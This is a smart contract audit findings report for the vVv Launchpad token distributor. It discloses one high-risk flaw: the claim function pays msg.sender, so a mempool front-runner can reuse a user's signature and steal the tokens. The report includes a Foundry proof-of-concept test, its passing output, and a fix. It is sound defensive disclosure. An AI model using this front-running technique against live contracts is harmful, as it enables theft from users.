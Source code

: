 # vVv Launchpad - Investments and Token Distribution - Findings Report

# Table of contents

- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
    - ### [H-01. Anyone can steal an eligible KYC'ed user's claim amount in `VVVVCTokenDistributor.sol`](#H-01)

# <a id='contest-summary'></a>Contest Summary

### Sponsor: vVv

### Dates: Nov 14th, 2024 - Nov 17th, 2024

[See more contest details here](https://audits.sherlock.xyz/contests/647)

# <a id='results-summary'></a>Results Summary

### Number of findings:

- High: 1
- Medium: 0
- Low: 0

# High Risk Findings

## <a id='H-01'></a>H-01. Anyone can steal an eligible KYC'ed user's claim amount in `VVVVCTokenDistributor.sol`

## Summary

Transferring the tokens to the caller of the VVVVCTokenDistributor::claim() function essentially allows anyone to steal an eligible KYC'ed user's claim amount by front-running a claim (the protocol is to be deployed on Ethereum Mainnet along with the other L2s).

## Root Cause

Consider the code segment [here](https://github.com/sherlock-audit/2024-11-vvv-exchange-update-mgnfy-view/blob/4ed37676fef5c25a551fe5be3b9acc12bfb6a878/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130C1-L136C10). The tokens are transferred from the project token proxy wallets to the caller of the VVVVCTokenDistributor::claim() function, instead of the eligible user's KYC address. Anyone can front-run the claim transaction, and use the signature to steal funds.

## Internal pre-conditions

A user needs to be eligible for a claim through VVVVCTokenDistributor.sol.

## External pre-conditions

The claim needs to occur on Ethereum Mainnet where transactions are collected in a mempool and can be front-run.

## Attack Path

1. An eligible user generates a signature to claim tokens via vVv's off-chain service.
2. The user sends the claim transaction which is collected in Ethereum Mainnet's mempool.
3. A malicious user front-runs the claim transaction and uses the same signature to claim tokens to their address.

## Impact

The eligible KYC'ed user loses all his claim amount.

## PoC

Add the following test case to vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol,

```js
    function testAnyoneCanStealAKYCedUsersClaimTokens() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams =
            generateClaimParamsWithSignature(sampleKycAddress, thisProjectTokenProxyWallets, thisTokenAmountsToClaim);

        // Create a malicious user
        address maliciousUser = vm.addr(1000);
        claimAsUser(maliciousUser, claimParams);
        // The malicious user essentially stole the KYC'ed users claim
        assertTrue(ProjectTokenInstance.balanceOf(maliciousUser) == claimAmount);
    }
```

The test passes,

```shell
Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testAnyoneCanStealAKYCedUsersClaimTokens() (gas: 122037)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.01ms (1.40ms CPU time)
```

## Mitigation

Make the following change to the VVVVCTokenDistributor::claim() function,

```diff
    function claim(ClaimParams memory _params) public {
        // Code here...

        // transfer tokens from each wallet to the caller
        // @audit Anyone can snatch this signature from the mempool and claim tokens because of the msg.sender recipient
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
-               msg.sender,
+              _params.kycAddress,
                _params.tokenAmountsToClaim[i]
            );
        }

        // More code here...
    }
```

This transfers the tokens to the KYC address instead of the sender of the transaction.